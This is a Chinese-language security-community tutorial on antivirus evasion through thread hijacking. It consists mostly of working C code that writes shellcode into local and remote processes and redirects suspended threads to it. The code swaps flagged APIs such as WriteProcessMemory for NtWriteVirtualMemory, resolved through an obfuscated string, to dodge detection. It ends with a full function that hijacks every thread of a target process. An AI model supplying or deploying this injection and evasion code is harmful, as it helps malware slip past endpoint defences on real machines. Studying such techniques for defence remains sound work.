








# 免杀基础-线程劫持-先知社区

> **来源**: https://xz.aliyun.com/news/16082  
> **文章ID**: 16082

---

`线程劫持（Thread Hijacking）`是指攻击者通过某种方式劫持线程的执行流从而执行shellcode的技术

线程劫持的核心思想是利用暂停目标线程、修改上下文来控制其执行流

# 线程上下文

在了解线程劫持之前 我们得先知道什么是线程上下文

`线程上下文`指的是一个线程在执行时所需的所有信息集合 包括线程的寄存器和堆栈

可以通过`GetThreadContext`来获取线程上下文



第二个参数要求指定ContextFlags



我们只需要获取寄存器 只要有 CONTEXT\_CONTROL 就行



可以通过`SetThreadContext`来修改线程上下文

对于线程劫持 我们的流程如下

`创建挂起线程 -> 获取上下文 -> 修改ip寄存器 -> 恢复线程`

这里创建挂起的线程的意义在于



所以主线程也是不能劫持的

# 创建挂起线程

```
void test(){
    MessageBox(0, 0, 0, 0);
}

```

`HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)&test, NULL, CREATE_SUSPENDED, NULL);`



# 修改线程上下文并恢复线程

```
CONTEXT context;
DWORD   dwOldProtection = NULL;
context.ContextFlags = CONTEXT_ALL;


// 分配内存
LPVOID lpMem = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(lpMem, shellcode, length);
VirtualProtect(lpMem, length, PAGE_EXECUTE_READWRITE, &dwOldProtection);


// 获取上下文并修改RIP
GetThreadContext(hThread, &context);
context.Rip = (DWORD64)lpMem;
SetThreadContext(hThread, &context);

// 恢复线程
ResumeThread(hThread);

```

这里使用calc的shellcode可能看不出来效果

因为主线程执行完就退出了

可以考虑用WaitForSingleObject阻塞主线程 再执行就弹计算器了

# 劫持现有线程

之前我们是创建了一个线程并劫持

现在我们考虑枚举系统的运行线程，然后进行劫持

通过`CreateToolhelp32Snapshot`进行线程的枚举

```
HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD,NULL);

```

获取到快照后遍历即可

```
THREADENTRY32 te32 = { sizeof(THREADENTRY32) };

    if (Thread32First(hSnapShot, &te32)) {
        do {
            wprintf(L"TID: %lu\n",te32.th32ThreadID);
        } while (Thread32Next(hSnapShot, &te32));
    }

```

现在获取的是所有的线程 而我们想要劫持指定进程的线程 只需要比对`te32.th32OwnerProcessID`与指定进程pid即可



在知道tid后 通过openThread获得线程句柄 之后的操作和之前类似

```
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS,false,te32.th32ThreadID);
SuspendThread(hThread);
LPVOID lpMem = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memcpy(lpMem, shellcode, length);
VirtualProtect(lpMem, length, PAGE_EXECUTE_READWRITE, &dwOldProtection);

GetThreadContext(hThread, &context);
context.Rip = (DWORD64)lpMem;
SetThreadContext(hThread, &context);

ResumeThread(hThread);
WaitForSingleObject(hThread, -1);

```

# 远程线程劫持

可以通过`CreateRemoteThread`实现 但是该api是比较敏感的 可以考虑用`CreateProcess`创建一个所有线程都挂起的进程


```
STARTUPINFO si = { sizeof(STARTUPINFO) };
PROCESS_INFORMATION pi;
CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

```

指定`dwCreationFlags`为`CREATE_SUSPENDED` 挂起主线程 这里cmdline随便找一个

然后注入到远程进程中

通过`VirtualAllocEx WriteProcessMemory`进行注入

`WriteProcessMemory`是被标记的高危api 考虑使用`NtWriteProcessMemory`

```
typedef NTSTATUS(NTAPI* pNtWriteVirtualMemory)(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    IN PVOID                Buffer,
    IN ULONG                NumberOfBytesToWrite,
    OUT PULONG              NumberOfBytesWritten OPTIONAL);

char str1[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);


LPVOID lpMem = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
    NtWriteVirtualMemory(pi.hProcess, lpMem, shellcode, sizeof(shellcode), NULL);
    VirtualProtectEx(pi.hProcess, lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

```

之后就和本地线程劫持一样了

获取线程上下文修改IP寄存器

```
GetThreadContext(pi.hThread, &context);
    context.Rip = (DWORD64)lpMem;
    SetThreadContext(pi.hThread, &context);

    ResumeThread(pi.hThread);

```

# 远程线程枚举

通过`CreateToolhelp32Snapshot`进行枚举 拿到指定pid的tid

然后通过pid打开进程

```
void remoteEnum(DWORD targetPid) {

    char str1[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetPid);

    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    THREADENTRY32 te32;
    te32.dwSize = sizeof(THREADENTRY32);
    CONTEXT context;
    context.ContextFlags = CONTEXT_ALL;
    DWORD dwOldProtection;

    if (Thread32First(hSnapShot, &te32)) {
        do {
            if (te32.th32OwnerProcessID == targetPid) {


                HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, false, te32.th32ThreadID);

                if (hThread != NULL) {

                    LPVOID lpMem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
                    NtWriteVirtualMemory(hProcess, lpMem, shellcode, sizeof(shellcode), NULL);
                    VirtualProtectEx(hProcess, lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);


                    SuspendThread(hThread);
                    GetThreadContext(hThread, &context);
                    context.Rip = (DWORD64)lpMem;
                    SetThreadContext(hThread, &context);

                    ResumeThread(hThread);
                    WaitForSingleObject(hThread, -1);

                }

            }

        } while (Thread32Next(hSnapShot, &te32));
    }


}

```

执行可能需要一些时间 因为劫持的不一定是主线程 并且不会持续运行




